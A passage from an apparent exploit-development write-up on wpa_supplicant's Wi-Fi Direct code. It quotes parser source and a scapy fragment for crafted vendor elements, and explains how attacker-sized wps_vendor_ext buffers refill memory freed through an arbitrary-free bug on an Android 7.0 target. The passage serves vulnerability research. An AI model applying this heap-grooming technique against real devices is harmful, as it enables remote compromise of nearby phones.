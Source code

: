 ```
...
	for (i = 0; i < P2P_MAX_WPS_VENDOR_EXT; i++) {
		wpabuf_free(dev->info.wps_vendor_ext[i]);
		dev->info.wps_vendor_ext[i] = NULL;
	}

	for (i = 0; i < P2P_MAX_WPS_VENDOR_EXT; i++) {
		if (msg.wps_vendor_ext[i] == NULL)
			break;
		dev->info.wps_vendor_ext[i] = wpabuf_alloc_copy(
			msg.wps_vendor_ext[i], msg.wps_vendor_ext_len[i]);
		if (dev->info.wps_vendor_ext[i] == NULL)
			break;
	}

	wfd_changed = p2p_compare_wfd_info(dev, &msg);

	if (msg.wfd_subelems) {
		wpabuf_free(dev->info.wfd_subelems);
		dev->info.wfd_subelems = wpabuf_dup(msg.wfd_subelems);
	}
	...


```

In general I will use `struct wpabuf *wps_vendor_ext` to perform overwrites of data freed with the arbitrary free primitive, as up to 10 ( `P2P_MAX_WPS_VENDOR_EXT)` can be allocated with each sent packet, and their length can be completely controlled. Vendor extensions can be added to the packet in the scapy script easily

```
vendor_ext = Dot11EltVendorSpecific(oui=0x0050f2, info=b"\x04\x10\x49" + ... )
...
packet = packet / vendor_ext


```

`wps_vendor_ext` is a `wpabuf`, a structure the exploit will deal with a lot so it is definitely worth delving into its layout. Its definition is in `wpabuf.h`

```
struct wpabuf {
	size_t size; /* total size of the allocated buffer */
	size_t used; /* length of data in the buffer */
	u8 *buf; /* pointer to the head of the buffer */
	unsigned int flags;
	/* optionally followed by the allocated buffer */
};


```


[ro.build.version.release]: [7.0]
[ro.build.version.sdk]: [24]
[ro.build.version.security_patch]: [2019-08-05]